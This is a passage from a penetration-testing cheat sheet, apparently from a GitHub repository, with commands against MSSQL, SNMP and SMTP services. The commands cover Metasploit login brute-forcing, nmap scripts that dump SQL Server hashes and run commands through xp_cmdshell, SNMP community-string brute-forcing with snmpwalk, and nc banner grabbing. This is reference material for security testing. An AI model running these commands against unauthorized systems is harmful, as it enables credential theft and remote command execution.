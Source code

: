 - Bruteforce :
```bash
# Metasploit Module :
use auxiliary/scanner/mssql/mssql_login
```

- Dump hashes : 
```bash
nmap <IP> -p1433 --script ms-sql-dump-hashes --script-args mssql.username='admin',mssql.password=''
```

- Execute command via `xp_cmdshell` : 
```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password='',ms-sql-xp-cmdshell.cmd='whoami' 10.2.31.174
```

Resource : https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

# SNMP

> SNMP (Simple Network Management Protocol) is a widely used protocol
for monitoring and managing networked devices, such as routers,
switches, printers, servers, and more.

Check if the port is open : 
```bash
nmap -sU -p161,162 <IP>
```

Find community strings :
```bash
# Nmap :
nmap -sU -p161 --script=snmp-brute <IP>
```

Extract information :
```bash
snmpwalk -v <VERSION> -c <COMMUNITY> <IP>
```


CS Link : [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)

# SMTP

> SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for
the transmission of email.

## Version

Get the SMTP version :
```bash
# Metasploit Module :
use auxiliary/scanner/smtp/smtp_version

# Banner Grabbing :
nc -vn <IP> 25
```

